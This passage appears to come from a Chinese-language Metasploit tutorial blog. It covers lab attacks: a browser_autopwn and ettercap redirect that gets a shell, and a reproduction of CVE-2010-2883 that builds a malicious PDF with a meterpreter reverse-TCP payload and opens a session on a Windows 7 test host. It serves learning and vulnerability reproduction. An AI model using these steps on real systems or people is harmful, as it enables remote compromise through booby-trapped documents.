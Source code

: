 ![Bildschirmfoto 2018-10-30 um 2.22.26 PM.png]({{ site.url }}/images/metasploit/50E91D0618B7BED534DF1EAE98CBAF50.png)

确保browser_autopwn服务器已经上线，万事俱备。受害者尝试打开`http://www.4399.com`：

![Bildschirmfoto 2018-10-30 um 2.55.38 PM.png]({{ site.url }}/images/metasploit/AF070315FFC820D9049AC4069A5B752E.png)

观察ettercap的日志如下：

![Bildschirmfoto 2018-10-30 um 2.57.16 PM.png]({{ site.url }}/images/metasploit/DF01150EA224019B59782372916B458D.png)

browser_autopwn服务器这边已经能够已经getshell了：

![Bildschirmfoto 2018-10-30 um 2.58.15 PM.png]({{ site.url }}/images/metasploit/380E171A8DCFAA1322603DF063600CA9.png)

## 基于各种文件格式渗透

最近美国披露的朝鲜黑客，其使用的“鱼叉攻击”就是借助E-mail发送恶意文件，从而感染索尼员工的电脑。我们来来看看这种攻击方式。

### PDF

漏洞是CVE-2010-2883，具体的分析工作在读完《0day安全》后跟随《漏洞战争》的学习进行，本次仅仅做漏洞复现实验。

```
OS: Windows 7 32-bit
Adobe Reader: 9.3
```

首先生成一个恶意pdf：

```
msf > use windows/fileformat/adobe_cooltype_sing
msf exploit(windows/fileformat/adobe_cooltype_sing) > show options

Module options (exploit/windows/fileformat/adobe_cooltype_sing):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.pdf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.56.1      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

注意我们用了反向shell，这是因为在现实中我们不知道受害者什么时候会打开pdf。

然后设置监听，当目标打开文件后我们将获得shell：

```
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.16.56.1:4444
[*] Sending stage (179779 bytes) to 172.16.56.159
[*] Meterpreter session 1 opened (172.16.56.1:4444 -> 172.16.56.159:49169) at 2018-10-30 15:30:24 +0800

meterpreter > getuid
Server username: WIN-J7CB6NT7B29\rambo

meterpreter > sysinfo
Computer        : WIN-J7CB6NT7B29
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
```